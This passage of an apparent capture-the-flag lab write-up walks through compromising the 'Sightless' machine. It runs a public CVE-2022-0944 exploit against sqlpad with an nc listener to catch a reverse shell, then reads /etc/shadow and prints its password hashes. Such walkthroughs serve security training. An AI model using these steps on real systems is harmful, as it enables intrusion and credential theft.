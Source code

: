 From the nmap results, we can see that there is port 80 which is a web service that running on the server and on port 22 is SSH and port 21 is FTP.

## Website - TCP 80

First of all, we can add the IP to our `/etc/host` folder as `sightless.htb`

```shell
0xStarlight@kali$ sudo nano /etc/host
10.10.11.32 sightless.htb
```

Take a look in the website, i can find a subdomain of ```sightless.htb``` is ```sqlpad.sightless.htb```

```shell
0xStarlight@kali$ sudo nano /etc/host
10.10.11.32 sqlpad.sightless.htb
```

Find some informations about ```sqlpad.sightless.htb``` website, it shows that the version of sqlpad is 6.10.0

# Exploit
## Cracking CVE-2022-0944

Now search some information about sqlpad version 6.10.0, i find a poc in a github repo [CVE-2022-0944](https://github.com/0xRoqeeb/sqlpad-rce-exploit-CVE-2022-0944)

Download it and run the exploit script

```shell
python exploit.py http://sqlpad.sightless.htb 10.10.14.8 4444
nc -nvlp 4444
```

I have a root reverse shell, is it done. =))

It just a root reverse shell of a docker container, check some information about the docker container.

First, i read ```/etc/passwd``` and ```etc/shadow```, and this have hash of password of ```michael``` user

```shell
root:$6$jn8fwk6LVJ9IYw30$qwtrfWTITUro8fEJbReUc7nXyx2wwJsnYdZYm9nMQDHP8SYm33uisO9gZ20LGaepC3ch6Bb2z/lEpBM90Ra4b.:19858:0:99999:7:::
daemon:*:19051:0:99999:7:::
bin:*:19051:0:99999:7:::
sys:*:19051:0:99999:7:::
sync:*:19051:0:99999:7:::
games:*:19051:0:99999:7:::
man:*:19051:0:99999:7:::
lp:*:19051:0:99999:7:::
mail:*:19051:0:99999:7:::
news:*:19051:0:99999:7:::
uucp:*:19051:0:99999:7:::
proxy:*:19051:0:99999:7:::
www-data:*:19051:0:99999:7:::
backup:*:19051:0:99999:7:::
list:*:19051:0:99999:7:::
irc:*:19051:0:99999:7:::
gnats:*:19051:0:99999:7:::
nobody:*:19051:0:99999:7:::
_apt:*:19051:0:99999:7:::
node:!:19053:0:99999:7:::
```